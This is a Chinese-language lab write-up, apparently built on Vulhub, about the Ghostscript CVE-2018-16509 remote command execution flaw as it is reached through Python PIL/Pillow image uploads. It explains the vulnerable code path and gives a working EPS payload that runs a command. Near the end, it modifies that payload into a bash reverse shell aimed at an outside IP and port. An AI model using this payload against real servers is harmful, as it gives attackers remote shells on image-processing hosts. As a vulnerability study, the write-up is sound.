


Python PIL 远程命令执行漏洞 CVE-2018-16509¶
漏洞描述¶
通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。
Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如 /usr/local/bin/gs，或 /usr/bin/gs) 。
CVE-2018-16509 漏洞允许在 v9.24 之前的 Ghostscript 中通过 -dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。
此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。
环境搭建¶
Vulhub 运行环境：
docker-compose up -d
运行后，访问 http://your-ip:8000/ 即可看到一个上传页面。
漏洞分析¶
可以通过上传 rce.jpg （一个 EPS 图像，并不是一个真正的 JPG）来在服务器中执行命令 touch /tmp/got_rce。
{kind=link}
通过命令 docker container ls 获取容器 ID。
如果想执行其他命令，可以在 rce.jpg 中修改命令 touch /tmp/got_rce 为任意其他命令。
可以参考 Tavis Ormandy 在 oss-security 中对漏洞的解释。
可以在 EPSImagePlugin.py 中查看 PIL/Pillow 中 Ghostscript 的源代码。
易受攻击的代码如下，例如 app.py：
@app.route('/', methods=['GET', 'POST'])
def upload_file():
if request.method == 'POST':
file = request.files.get('image', None)
if not file:
flash('No image found')
return redirect(request.url)
filename = file.filename
ext = path.splitext(filename)[1]
if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
flash('Invalid extension')
return redirect(request.url)
tmp = tempfile.mktemp("test")
img_path = "{}.{}".format(tmp, ext)
file.save(img_path)
img = Image.open(img_path)
w, h = img.size
ratio = 256.0 / max(w, h)
resized_img = img.resize((int(w * ratio), int(h * ratio)))
resized_img.save(img_path)
上传文件将通过 img = Image.open(img_path) 加载。PIL 将自动检测图片是否为 EPS 图片（例如，文件头为 %!PS-Adobe-3.0 EPSF-3.0）。随后，将调用 EpsImageFile 类 EPSImagePlugin.py 文件中的 _open() 函数。
为了避免触发错误 raise IOError("cannot determine EPS bounding box")，文件中将加入边界框信息（例如，%%BoundingBox: -0 -0 100 100）。
EPS 图像将被 EPSImagePlugin.py 文件中的 Ghostscript 函数的 subprocess 进行处理：
# Build Ghostscript command
command = ["gs",
"-q", # quiet mode
"-g%dx%d" % size, # set output geometry (pixels)
"-r%fx%f" % res, # set input DPI (dots per inch)
"-dBATCH", # exit after processing
"-dNOPAUSE", # don't pause between pages
"-dSAFER", # safe mode
"-sDEVICE=ppmraw", # ppm driver
"-sOutputFile=%s" % outfile, # output file
"-c", "%d %d translate" % (-bbox[0], -bbox[1]),
# adjust for image origin
"-f", infile, # input file
"-c", "showpage", # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
]
....
try:
with open(os.devnull, 'w+b') as devnull:
startupinfo = None
if sys.platform.startswith('win'):
startupinfo = subprocess.STARTUPINFO()
startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
subprocess.check_call(command, stdin=devnull, stdout=devnull,
startupinfo=startupinfo)
以上代码将在 Image.py 文件中的 load 被调用的时候才会被调用，所以只打开图片不会触发漏洞。resize、 crop、rotate、和 save 函数将会调用 load ，并触发漏洞。
结合 Tavis Ormandy 的 POC，我们可以制作 rce.jpg，实现远程 shell 命令执行。
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
成功执行命令 touch /tmp/got_rce：

将 touch /tmp/tmp/got_rce 命令改为反弹 shell 命令：
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
成功接收反弹 shell：
